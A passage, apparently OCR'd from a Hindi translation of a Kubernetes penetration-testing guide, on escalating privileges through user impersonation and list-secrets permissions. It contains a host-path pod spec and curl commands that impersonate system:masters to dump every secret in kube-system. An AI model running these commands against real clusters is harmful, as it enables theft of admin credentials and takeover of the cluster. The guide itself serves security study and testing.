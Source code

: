 ```yaml
- name: task-pv-storage-vol
persistentVolumeClaim:
claimName: task-pv-claim-vol
containers:
- name: task-pv-container
image: ubuntu:latest
command: [ "sh", "-c", "sleep 1h" ]
volumeMounts:
- mountPath: "/hostlogs"
name: task-pv-storage-vol
```
### **विशेषाधिकार वाले खातों की अनुकरण करना**

[**उपयोगकर्ता अनुकरण**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation) विशेषाधिकार के साथ, एक हमलावर्ती एक विशेषाधिकार वाले खाते की अनुकरण कर सकता है।

इस उदाहरण में, सेवा खाता _**sa-imper**_ को एक ClusterRole के साथ बाइंड किया गया है जिसमें नियम हैं जो इसे समूहों और उपयोगकर्ताओं की अनुकरण करने की अनुमति देते हैं।

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_for\_user\_impersonation.png)

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_for\_user\_impersonation\_2.png)

`--as=null --as-group=system:master` गुणों के साथ सभी सीक्रेट्स को **सूचीबद्ध करना संभव है**:

![](https://www.cyberark.com/wp-content/uploads/2018/12/listing\_secrets\_with\_and\_without\_user\_impersonation-1024x108.png)

**एपीआई आराम्भिक अंतबिंदु के माध्यम से भी यही कार्रवाई करना संभव है:**
```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### **सीक्रेट्स की सूची बनाना**

**सीक्रेट्स की सूची बनाने की अनुमति** क्लस्टर में रखने के लिए एक मजबूत क्षमता है। सीक्रेट्स की सूची बनाने की अनुमति वाले उपयोगकर्ता को **संभावित रूप से क्लस्टर में सभी सीक्रेट्स को देखने की क्षमता होती है - इसमें एडमिन कुंजी भी शामिल हो सकती है**। सीक्रेट कुंजी एक बेस64 में एनकोड किए गए JWT टोकन होती है।

![](https://www.cyberark.com/wp-content/uploads/2018/12/listing\_secrets\_role.png)

क्लस्टर में **\_सीक्रेट्स की सूची बनाने का उपयोग करने वाले को एक्सेस मिलता है\_** तो एक हमलावर "kube-system" नेमस्पेस में सभी सीक्रेट्स प्राप्त करने के लिए निम्नलिखित _कर्ल_ कमांड का उपयोग कर सकता है:
```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-2.png)

